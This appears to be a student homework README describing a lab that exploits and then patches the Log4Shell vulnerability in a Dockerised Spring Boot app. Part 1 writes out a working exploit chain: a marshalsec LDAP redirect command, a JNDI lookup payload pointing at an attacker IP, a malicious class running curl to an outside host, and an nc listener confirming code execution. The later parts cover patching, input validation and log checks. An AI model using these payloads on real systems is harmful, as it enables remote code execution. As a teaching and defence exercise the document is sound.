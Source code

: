 # Week9: Log4Shell Vulnerability Homework

## Introduction 
This project demonstrates the exploitation and mitigation of the Log4Shell vulnerability (CVE-2021-44228) using a vulnerable Java Spring Boot application deployed via Docker Compose. The objectives of this homework are:

- Simulate a real-world Log4Shell exploit scenario
- Apply MITRE ATT&CK, DEFEND, and REACT frameworks
- Harden and redeploy the application using secure coding practices

---

## Prerequisites
- Docker & Docker Compose
- Java + Maven (if building manually)
- Python 3 (for attacker LDAP simulation)
Also, Ports 8000, 8080, 1389 and 389 are open in your EC2 Security Group (for the app and LDAP server).

---

## Part 1: Exploitation (MITRE ATT&CK)
After launching the ldap app "python3 ldap_server.py"  i received this error: ldap3.core.exceptions.LDAPSocketOpenError: socket connection error while opening: [Errno 111] Connection refused; after researching this error, i came to the point of using marshalsec, which is a malicious LDAP redirect server, not a real LDAP directory; i cloned it (git clone https://github.com/mbechler/marshalsec.git) then built it. I then ran manually these commands 
### HTTP server (for payload)
cd exploit/
python3 -m http.server 8000

### LDAP redirect server
java -cp marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<your-ip>:8000/#Exploit
To exploit the Log4Shell vulnerability, a vulnerable Spring Boot app using Log4j was set up to log user input. A malicious LDAP server was launched using marshalsec to redirect requests to an HTTP server hosting a malicious Exploit.class. The exploit payload ${jndi:ldap://<attacker-ip>:1389/Exploit} was sent via a POST request to the app’s /log endpoint. When the app logged this input, it triggered the JNDI lookup, causing the app to connect to the LDAP server. This demonstrated remote code loading behavior, confirming the Log4Shell vulnerability's exploitation path from input to remote callback.

Proof of vulnerability exploitation:
![image](https://github.com/user-attachments/assets/892533b0-5fb8-49f6-9acd-80159a2bc812)
nc -lvnp 9999 listener received a connection from the target app's IP (Connection received on 164.52.0.91 51287); The incoming payload shows garbled data and headers (xterm-256color, hostname, etc.), indicating that the curl http://44.208.30.186:9999/ executed successfully inside the vulnerable app. 

To summarize What Just Happened
- the vulnerable Spring Boot app logged: {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"}
- That triggered a request to your rogue LDAP server (marshalsec).
- The LDAP server instructed the app to load a malicious .class file from your HTTP server.
- The malicious .class file contained: Runtime.getRuntime().exec("curl http://<attacker>:9999/");
- The target executed that, reaching your port 9999, confirming Remote Code Execution (RCE).

the file start_exploit.sh available in the exploit folder automates all this process.

## Part 2: Defense (MITRE DEFEND)
- Log4j upgraded to 2.17.0.
- Input validation implemented to block JNDI patterns.

To do this, we need to:
- Replace vulnerable LogController.java with patched/LogController.java.
- Upgrade log4j version to 2.17.0 in pom.xml.
- 
before: ![image](https://github.com/user-attachments/assets/70fa2a88-26a0-4531-af5c-fcfacad41415)

after: ![image](https://github.com/user-attachments/assets/cc7b0dfe-1943-4a31-a93d-7d90533207ea) 

- Rebuild and restart: the result is as follow: ![image](https://github.com/user-attachments/assets/e8071e43-2160-4ec0-a7a5-b6e1f92bf70f)

That confirms the patch is working; the pdated application successfully blocked the Log4Shell exploit attempt.
What Just Happened: we sent the malicious payload {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"} ; The updated LogController.java now includes input validation that detects and blocks JNDI injection attempts and the app returned: Blocked suspicious input!

Testing with normal input returns Logged: Hello World!

![image](https://github.com/user-attachments/assets/4204f54e-a58b-45e4-8ab9-7082524fbea8)

  


## Part 3: Response (MITRE REACT)
- Detect: Logs examined for exploit traces: docker logs $(docker ps -qf "name=app") 2>&1 | grep jndi
![image](https://github.com/user-attachments/assets/e4351711-9a18-4c52-832a-02a0572a6bd1)

 This returned nothing, which is good sign, because we are currently running the patched app; it also means the patched application successfully blocked the malicious input and did not log or process the ${jndi:...} payload.


- Contain: Vulnerable container stopped
  If we were running the unpatched app, it would have been good to contain the vulnerable container by running: docker-compose down
  
- Eradicate: Patched container deployed; here we have to ensure that patched code is deployed. We did this on part2
  
- Recover: System restored with mitigation verified; this consists of restart and test with clean input: docker-compose up --build -d
This was also done in part2

---

## Conclusion and Lessons Learned

Working through the Log4Shell vulnerability really drove home some key points about building secure software. It's easy to forget about things like logging libraries (like Log4j), but they're definitely part of what attackers can target. As we saw, just one little piece of data that's not handled correctly can open the door for someone to run code remotely if the logging system has a flaw. This really shows why it's so important to keep all our software up to date and to know what the third-party tools we're using actually do.

Plus, it's clear that we absolutely have to check everything that comes into our applications, even if it's going to internal parts. The fixed version we looked at successfully stopped malicious attacks just by cleaning up the input it received, proof that even simple checks can make a big difference!

Lastly, tools like MITRE ATT&CK and D3FEND give us a great way to think about security throughout the whole lifecycle, from finding weaknesses to fixing them and responding if something happens. They're super helpful for anyone working in cybersecurity today. This whole exercise really reinforces that being proactive with our defenses, having a good understanding of how our systems are put together, and constantly keeping an eye on things are crucial for keeping our systems secure


---

## References

- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [MITRE DEFEND](https://defend.mitre.org/)
- [MITRE REACT](https://www.mitre.org/publications/technical-papers/react-a-framework-for-incidence-response)

